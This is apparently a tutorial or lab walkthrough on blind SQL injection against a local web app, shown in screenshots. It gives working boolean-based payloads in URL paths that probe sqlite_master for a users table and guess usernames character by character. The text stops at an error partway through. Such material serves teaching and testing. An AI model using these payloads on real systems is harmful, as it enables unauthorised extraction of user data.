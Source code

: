 Queries with the 1,2,3 are valid, but with the 4 is not. That tell us that  pages id's 1,2,3 are valid

```
http://localhost:5000/home/1
http://localhost:5000/home/2
http://localhost:5000/home/3
http://localhost:5000/home/4
```

<center>

![](https://i.imgur.com/tFJTami.png)

</center>

Now we need to add logic to our request. This if statement gives is a structure about the future attack query

```
http://localhost:5000/home/(select case when 1=1 then 1 else 4 end)
```

<center>

![](https://i.imgur.com/7FuIm0w.png)

</center>

Now, since previous step is successful we can start getting info from the database
This query is used to check is the database of user exists

```
http://localhost:5000/home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
```

It is, because there is no error message

<center>

![](https://i.imgur.com/7FuIm0w.png)

</center>

Now, as a part of blind guessing we can start searching users in the database by  their name, for example starting with `a`

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='a' then 1 else 4 end from users limit 0,1)
```

Strange, an error
 
<center>

![](https://i.imgur.com/reQAuAb.png)

</center>
